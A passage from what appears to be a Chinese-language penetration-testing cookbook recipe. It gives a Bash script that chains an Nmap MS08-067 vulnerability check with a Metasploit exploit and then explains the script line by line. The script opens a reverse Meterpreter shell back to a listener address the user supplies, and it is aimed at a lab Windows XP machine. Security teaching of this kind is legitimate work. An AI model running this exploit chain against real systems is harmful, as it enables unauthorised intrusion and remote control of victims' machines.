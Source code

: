 # 准备工作

要使用本示例中演示的脚本，您需要访问运行易受攻击服务的系统，该服务可以通过 NSE 脚本识别并通过 Metasploit 进行利用。在提供的示例中，使用的是一台运行 SMB 服务并且容易受到 MS08-067 NetAPI 漏洞攻击的 Windows XP 系统。有关设置 Windows 系统的更多信息，请参考 第一章中的 *安装 Windows Server* 食谱，*入门* 部分。此外，本节还需要通过 Vim 或 GNU nano 等文本编辑器编写脚本到文件系统。有关编写脚本的更多信息，请参考 第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 食谱，*入门* 部分。

# 如何操作...

接下来的示例演示了如何使用 Bash 脚本将漏洞扫描和目标利用这两个任务串联起来。在这个例子中，`smb-vuln-ms08-067.nse` 脚本用于确定系统是否容易受到 MS08-067 攻击，然后，如果系统被发现存在漏洞，相应的 Metasploit 漏洞利用将对该系统执行：

```
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <RHOST> <LHOST> <LPORT>"; exit; fi

rhost=$1
lhost=$2
lport=$3

nmap --script smb-vuln-ms08-067.nse -p 445 $rhost --script-args=unsafe=1 -oN tmp_output.txt
if grep -q VULNERABLE: tmp_output.txt; 
 then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";
 msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST $rhost; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST $lhost; set LPORT $lport; run"
fi
rm tmp_output.txt

```

1.  为了确保脚本的功能得以理解，我们将依次介绍每一行：

    +   脚本的前几行与本章之前讨论的脚本相同。第一行定义了解释器，第二行测试输入，第三、第四和第五行用于根据用户输入定义变量。

    +   在此脚本中，提供的用户变量对应于 Metasploit 中使用的变量。`RHOST` 变量应该定义目标的 IP 地址，`LHOST` 变量应该定义反向监听的 IP 地址，`LPORT` 变量应该定义监听的本地端口。

    +   脚本执行的第一项任务是在目标系统的 IP 地址上执行 `smb-vuln-ms08-067.nse` 脚本，目标系统的 IP 地址由 `RHOST` 输入定义。

    +   结果随后以正常格式输出到一个临时文本文件。

    +   然后，将使用`if...then`条件语句与`grep`函数结合使用，测试输出文件以查找表明系统存在漏洞的唯一字符串。如果发现唯一字符串，脚本将指示系统可能存在漏洞，然后使用`msfconsole -x`执行 Metasploit 利用和 Meterpreter 负载。

    +   最后，在启动利用后，将使用`rm`函数从文件系统中删除临时 Nmap 输出文件。`test_n_xploit.sh` Bash 命令的执行如下：

![](img/00632.jpeg)

1.  如果脚本在不提供任何参数的情况下执行，则将输出适当的用法。此用法描述将指示应按顺序使用`RHOST`、`LHOST`和`LPORT`参数执行脚本。这些输入值将同时用于 NSE 漏洞扫描，以及如果有必要的话，用 Metasploit 在目标系统上执行利用。
